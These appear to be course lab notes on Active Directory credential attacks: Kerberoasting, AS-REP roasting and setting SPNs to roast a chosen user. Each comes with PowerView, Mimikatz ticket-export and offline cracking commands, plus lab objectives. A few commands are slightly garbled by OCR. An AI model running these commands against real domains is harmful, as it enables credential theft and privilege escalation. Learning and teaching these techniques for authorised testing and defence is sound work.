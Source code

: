 # Kerberoast

• Offline cracking of service account passwords. 

• The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack. 

• Service accounts are many times ignored (passwords are rarely changed) and have privileged access. 

• Password hashes of service accounts could be used to create Silver tickets.

#### Find user accounts used as Service accounts
```powershell
# PowerView
Get-NetUser –SPN

# AD Module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```

#### Request a TGS
```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorpmgmt.dollarcorp.moneycorp.local"
```

`Request-SPNTicket` from PowerView can be used as well for cracking with John or Hashcat.

#### Check if the TGS has been granted
```powershell
klist
```

#### Export all tickets using Mimikatz
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.localDOLLARCORP.MONEYCORP.LOCAL.kirbi
```

# Learning Objective 14

Using the Kerberoast attack, crack password of a SQL server service account.

# AS-REP Roasting

- If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
- With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

#### Enumerating accounts with kerberos Preauth disabled
```powershell
# Using PowerView (dev)
Get-DomainUser -PreauthNotRequired -Verbose

# Using ActiveDirectory module:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} - Properties DoesNotRequirePreAuth
```

### Force disable Kerberos Preauth

#### Enumerate the permissions for RDPUsers on ACLs using PowerView (dev):
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} –Verbose

Get-DomainUser -PreauthNotRequired -Verbose
```

### Request encrypted AS-REP for offline brute-force

#### ASREPRoast
```powershell
Get-ASREPHash -UserName VPN1user -Verbose
```

#### Enumerate all users with Kerberos preauth disabled and request a hash
```powershell
Invoke-ASREPRoast -Verbose
```


#### Crack hash with John The Ripper

![[Pasted image 20230106200500.png]]

# Learning Objective 15

• Enumerate users that have Kerberos Preauth disabled.

• Obtain the encrypted part of AS-REP for such an account. 

• Determine if studentx has permissions to set UserAccountControl flags for any user. 

• If yes, disable Kerberos Preauth on such a user and obtain encrypted part of AS-REP.

# Set SPNs

• With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain). 

• We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

#### Let's enumerate the permissions for RDPUsers on ACLs using PowerView (dev)
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} 
```

#### Using Powerview (dev), see if the user already has a SPN
```powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname 
```

#### Using ActiveDirectory module
```powershell
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

#### Set a SPN for the user (must be unique for the domain)
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='ops/whatever1'}
```

#### Using Active Directory module
```powershell
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}
```

#### Request a ticket
```powershell
Add-Type -AssemblyNAme System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityTok en -ArgumentList "ops/whatever1"
```

`Request-SPNTicket` from PowerView can be used as well for cracking with John or Hashcat.

#### Check if the ticket has been granted 
```powershell
klist.exe 
```

####  Export all tickets using Mimikatz
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"' 
```

####  Brute-force the password 
```cmd
python.exe .\tgsrepcrack.py .\10k-passwords.txt '.\2- 40a10000-student1@ops~whatever1- dollarcorp.moneycorp.LOCAL.kirbi'
```

# Learning Objective 16

- Determine if studentx has permissions to set UserAccountControl flags for any user. 

- If yes, force set a SPN on the user and obtain a TGS for the user.